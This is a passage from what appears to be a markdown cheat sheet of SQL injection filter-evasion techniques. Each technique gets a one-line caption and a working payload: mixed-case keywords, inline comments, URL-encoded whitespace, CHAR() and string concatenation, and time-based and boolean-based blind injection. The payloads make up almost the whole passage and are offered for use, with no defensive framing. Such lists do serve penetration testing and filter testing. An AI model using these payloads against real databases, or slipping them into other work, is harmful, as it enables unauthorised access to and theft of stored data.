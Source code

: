 ### 2. Case Manipulation and Comments

#### Mixed Case
- Change the case of SQL keywords.
  ```sql
  ' uNioN SeLecT NULL, NULL --
  ```

#### Inline Comments
- Insert comments within SQL keywords to obfuscate the payload.
  ```sql
  ' UNION/**/SELECT/**/NULL,NULL --
  ```

### 3. Whitespace and Special Characters

#### Using Different Whitespace Characters
- Replace spaces with other whitespace characters like tabs or newlines.
  ```sql
  ' UNION%0D%0ASELECT%0D%0A NULL,NULL --
  ```

#### Concatenation with Special Characters
- Use special characters and concatenation to build the payload dynamically.
  ```sql
  ' UNION SELECT CHAR(117)||CHAR(115)||CHAR(101)||CHAR(114), CHAR(112)||CHAR(97)||CHAR(115)||CHAR(115) --
  ```

### 4. SQL Function and Command Obfuscation

#### String Concatenation
- Break strings into smaller parts and concatenate them.
  ```sql
  ' UNION SELECT 'ad'||'min', 'pa'||'ss' --
  ```

#### Using SQL Functions
- Leverage SQL functions to manipulate the payload.
  ```sql
  ' UNION SELECT VERSION(), DATABASE() --
  ```

### 5. Time-Based and Boolean-Based Payloads

#### Time-Based Blind SQL Injection
- Use time delays to infer information from the response.
  ```sql
  ' AND IF(1=1, SLEEP(5), 0) --
  ```

#### Boolean-Based Blind SQL Injection
- Use conditions that alter the response based on true or false conditions.
  ```sql
  ' AND IF(1=1, 'A', 'B')='A' --
  ```
